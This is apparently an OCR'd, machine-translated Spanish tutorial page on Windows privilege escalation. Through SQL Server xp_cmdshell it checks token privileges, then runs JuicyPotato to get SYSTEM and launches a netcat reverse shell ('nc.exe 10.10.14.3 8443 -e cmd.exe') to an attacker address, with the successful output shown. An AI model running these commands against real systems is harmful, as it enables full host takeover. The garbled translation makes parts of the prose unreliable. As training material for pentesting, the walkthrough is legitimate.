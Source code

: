 A continuación, verifiquemos qué privilegios se ha otorgado la cuenta de servicio.

  Seimpersonate y SeassignPrimaryToken

```shell-session
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

El comando`whoami /priv`confirma que[Seimpersonateprivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege)fallan. Este privilegio se puede usar para hacerse pasar por una cuenta privilegiada como`NT AUTHORITY\SYSTEM`. [Juicypotato](https://github.com/ohpe/juicy-potato)se puede utilizar para explotar el`SeImpersonate`o`SeAssignPrimaryToken`Privilegios a través del abuso de reflexión DCOM/NTLM.

#### Privilegios crecientes usando juicypotato

Para aumentar los privilegios utilizando estos derechos, primero descargemos el`JuicyPotato.exe`binario y sube esto y`nc.exe`al servidor de destino. A continuación, ponte de pie un oyente de NetCat en el puerto 8443 y ejecuta el comando a continuación donde`-l`es el puerto de escucha del servidor COM,`-p`es el programa para lanzar (cmd.exe),`-a`¿El argumento se pasa a cmd.exe, y`-t`es el`createprocess`llamar. A continuación, le estamos diciendo a la herramienta que pruebe ambos[CreateProcessWithTokenw](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)y[Createprocesasuser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)funciones que necesitan`SeImpersonate`o`SeAssignPrimaryToken`privilegios respectivamente.

  Seimpersonate y SeassignPrimaryToken

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```
